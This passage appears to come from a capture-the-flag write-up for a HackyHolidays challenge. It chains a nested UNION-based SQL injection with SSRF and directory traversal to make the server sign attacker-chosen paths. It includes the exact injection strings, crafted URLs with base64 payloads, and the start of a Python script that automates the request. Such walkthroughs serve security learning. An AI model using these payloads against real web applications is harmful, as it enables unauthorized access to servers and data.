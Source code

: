 ```
{"image":"r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}
```

This looks very interesting. If we change the image URL, we may be able to perform a Server Side Request Forgery (SSRF) attack against the API, which in this case will make the API request come directly from the r3c0n server, and not from our IP. This may let us bypass the IP restriction on the API. Let us change the image property of the JSON object from `r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg` to `r3c0n_server_4fdk59\/api` and encode the the whole JSON object with base64 again. This will produce the following encoded data:

```
eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL2FwaSIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9
```

And if we append it to the URL we get:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL2FwaSIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9
```

When we request the URL we get the following message: `invalid authentication hash`. So, there is some kind of authentication going on here. We will probably need to bypass that. 

Since the "hash" parameter on the albums page is vulnerable to a SQL injection, maybe we can influence the query in some way, and change the image URL in the JSON object and get the server to generate a valid hash for that new URL.

By exploiting the SQL injection using a union based query, we are able to modify the image path. The following value, sent to the album endpoint via the hash parameter, will result in modifying the image path:

```
a' UNION SELECT "2' UNION SELECT 1,1,'../api' --+-",1,1--+-
```

This query, will change the image path of in the returned JSON data object that is then sent to the picture endpoint. We can observe it by browsing to the following URL:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=a' UNION SELECT "2' UNION SELECT 1,1,'../api' --+-",1,1--+-
```

If we base64 decode the data parameter sent to the picture endpoint now, we see that it has changed to the following:

```
{"image":"r3c0n_server_4fdk59\/uploads\/..\/api","auth":"38122d477657c1a0c9ba873c11017497"}
```

Now we are able to do a directory traversal via the image path, and the server will generate the hash for us. To make the testing a little easier we can use the following Python script to send a request with our chosen path, and get the data decoded and the HTTP response code and body from the picture request:

```python
import requests
import sys
from bs4 import BeautifulSoup
import base64

if len(sys.argv) != 2:
    print("(-) Usage: {} <PATH>".format(sys.argv[0]))
    sys.exit(1)

url ="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=a' UNION SELECT \"2' UNION SELECT 1,1,'{}' --+-\",1,1--+-".format(sys.argv[1])
response = requests.get(url) 
```